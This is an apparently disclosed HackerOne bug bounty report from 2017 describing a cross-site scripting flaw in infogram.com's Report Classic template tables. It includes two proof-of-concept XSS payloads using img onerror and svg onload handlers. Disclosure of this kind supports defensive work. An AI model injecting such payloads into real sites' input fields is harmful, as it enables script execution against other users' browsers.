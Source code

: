 # XSS on infogram.com

## Report Details
- **Report ID**: 283565
- **URL**: https://hackerone.com/reports/283565
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-10-27T15:57:21.110Z
- **Disclosed**: 2017-11-01T10:02:27.325Z

## Reporter
- **Username**: mondhers
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: infogram

## Vulnerability Information
Hello,

There is a XSS on Report templates.

Free templates : Report Classic 

When we modify the values of table we can put XSS Payload.

Payload used : 

"><img src=x onerror=prompt(0);>
"/><svg/onload=alert(0);>


## Attachments
- infogram_1.PNG
- infogram_xss.PNG
- infogram_xssed.PNG

